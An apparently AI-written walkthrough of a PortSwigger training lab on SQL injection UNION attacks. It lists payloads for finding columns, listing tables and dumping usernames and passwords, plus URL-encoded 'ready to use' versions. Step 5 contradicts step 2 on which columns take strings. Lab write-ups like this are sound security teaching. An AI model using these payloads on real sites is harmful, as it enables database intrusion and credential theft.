

Excellent! Here's a **complete, step-by-step walkthrough** you can post on GitHub. I'll write it clearly so anyone can follow.

---

# SQL Injection UNION Attack – Retrieving Credentials (PortSwigger Lab)

## Lab Description

**Goal:** Perform a SQL injection UNION attack to retrieve all usernames and passwords from the `users` table, then log in as the `administrator` user.

**Vulnerability:** Product category filter is vulnerable to SQL injection. Query results are returned in the response.

---

## Step 1: Find the Number of Columns

First, determine how many columns the original query returns.

### Test payloads (inject into `category` parameter):

```
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
' ORDER BY 4 --
```

**OR** (using UNION SELECT NULL):

```
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

### Result:
The query returns **2 columns**.

---

## Step 2: Find Which Column Accepts String Data

Test each column by placing a string value (`'a'`) in one column at a time.

### Test column 1:
```
' UNION SELECT 'a', NULL --
```

### Test column 2:
```
' UNION SELECT NULL, 'a' --
```

### Result:
Column 2 accepts string data (you see `a` appear in the response).

---

## Step 3: Find Table Names

Query `information_schema.tables` to discover all tables in the database.

### Payload:
```
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

### Result:
You find a table called **`users`**.

---

## Step 4: Find Column Names in the `users` Table

Query `information_schema.columns` to see what columns the `users` table contains.

### Payload:
```
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users' --
```

### Result:
The `users` table has these columns:
- `username`
- `password`

---

## Step 5: Retrieve Usernames and Passwords

Now steal the actual data from the `users` table.

### Get usernames:
```
' UNION SELECT NULL, username FROM users --
```

### Get passwords:
```
' UNION SELECT NULL, password FROM users --
```

### Get both at once (if both columns accept strings):
```
' UNION SELECT username, password FROM users --
```

### Example Output:

| username | password |
|----------|----------|
| administrator | 8x9kL3pQ2mR7 |
| wiener | bluecheese |
| carlos | 123456 |

---

## Step 6: Log In as Administrator

Use the stolen credentials:

1. Go to the **My Account** page
2. Username: `administrator`
3. Password: (the password you retrieved)
4. Click **Log in**

---

## Complete Payload Summary

| Step | Payload |
|------|---------|
| Find column count | `' UNION SELECT NULL, NULL --` |
| Find string column | `' UNION SELECT NULL, 'a' --` |
| Find table names | `' UNION SELECT NULL, table_name FROM information_schema.tables --` |
| Find column names | `' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users' --` |
| Steal credentials | `' UNION SELECT username, password FROM users --` |

---

## URL Encoded Version (Ready to Use)

```
# Find string column (column 2)
%27%20UNION%20SELECT%20NULL%2C%20%27a%27%20--

# Find table names
%27%20UNION%20SELECT%20NULL%2C%20table_name%20FROM%20information_schema.tables%20--

# Find column names in users table
%27%20UNION%20SELECT%20NULL%2C%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20%3D%20%27users%27%20--

# Steal usernames and passwords
%27%20UNION%20SELECT%20username%2C%20password%20FROM%20users%20--
```

---

## Key Takeaways

1. **Always determine column count first** – otherwise UNION attacks fail
2. **Find string-compatible columns** – you need these to steal text data
3. **Use `information_schema`** – to discover table and column names
4. **Replace NULL with actual column names** – to retrieve real data

---

## Notes for Your GitHub Repo

- This lab uses **PostgreSQL** (you can tell from the system tables like `pg_extension`)
- The comment sequence `--` works (no space needed, unlike MySQL)
- The injection point is in the `category` GET parameter

---
